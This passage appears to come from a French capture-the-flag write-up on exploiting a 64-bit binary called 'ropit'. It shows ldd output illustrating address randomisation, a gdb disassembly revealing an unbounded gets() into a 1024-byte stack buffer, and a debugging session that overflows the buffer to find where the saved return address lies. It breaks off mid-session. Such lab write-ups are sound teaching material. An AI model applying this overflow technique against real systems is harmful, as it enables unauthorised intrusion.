 La référence à *ret2libc.c* fait office de clin d’œil amusant. On peut lancer ldd plusieurs fois consécutives pour admirer la randomisation de la stack :  

```plain
Boe@moee:/home/Boe$ ldd ./ropit  
        linux-vdso.so.1 (0x00007ffee2d3f000) 
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb709086000) 
        /lib64/ld-linux-x86-64.so.2 (0x00007fb709431000) 
Boe@moee:/home/Boe$ ldd ./ropit  
        linux-vdso.so.1 (0x00007ffdf29cf000) 
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f349b7c1000) 
        /lib64/ld-linux-x86-64.so.2 (0x00007f349bb6c000) 
Boe@moee:/home/Boe$ ldd ./ropit  
        linux-vdso.so.1 (0x00007fffd05eb000) 
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffb7889c000) 
        /lib64/ld-linux-x86-64.so.2 (0x00007ffb78c47000
```

Voici le code ASM de la fonction main :  

```asm
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400537 <+0>:     push   %rbp
   0x0000000000400538 <+1>:     mov    %rsp,%rbp
   0x000000000040053b <+4>:     sub    $0x400,%rsp
   0x0000000000400542 <+11>:    lea    0xbf(%rip),%rdi        # 0x400608
   0x0000000000400549 <+18>:    call   0x400430 <puts@plt>
   0x000000000040054e <+23>:    lea    0xfb(%rip),%rdi        # 0x400650
   0x0000000000400555 <+30>:    call   0x400430 <puts@plt>
   0x000000000040055a <+35>:    lea    -0x400(%rbp),%rax
   0x0000000000400561 <+42>:    mov    %rax,%rdi
   0x0000000000400564 <+45>:    mov    $0x0,%eax
   0x0000000000400569 <+50>:    call   0x400440 <gets@plt>
   0x000000000040056e <+55>:    mov    $0x0,%eax
   0x0000000000400573 <+60>:    leave  
   0x0000000000400574 <+61>:    ret    
End of assembler dump.
```

La vulnérabilité tient du fait que la fonction *gets()* est utilisée et qu'elle ne fait pas attention à la quantité d'octets lus. La pile alloue justement 1024 (0x400) octets pour la variable locale qui est ici la destination de la recopie.  

L'écrasement du registre RIP se fera sur la dernière instruction *ret*. On peut donc placer un breakpoint, saisir l'équivalent de l'expression python *"A" \* 1024 + "B" \* 4 + "C" \* 4 + "D" \* 4 + "E" \* 4* et regarder sur la pile à quoi correspondra la future valeur de ce registre :  

```plain
(gdb) b * 0x0000000000400574
Breakpoint 1 at 0x400574
(gdb) r 
Starting program: /tmp/ropit 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
Welcome to Exploitation&Pwning world back day's from Moomin's time .

Let's see what you can use to get the root of this box.

AAAA--- snip ---AAAAAABBBBCCCCDDDDEEEE

Breakpoint 1, 0x0000000000400574 in main ()
(gdb) x/s $rsp
0x7fff84282758: "DDDDEEEE"
(gdb) info reg
rax            0x0                 0
rbx            0x0                 0
```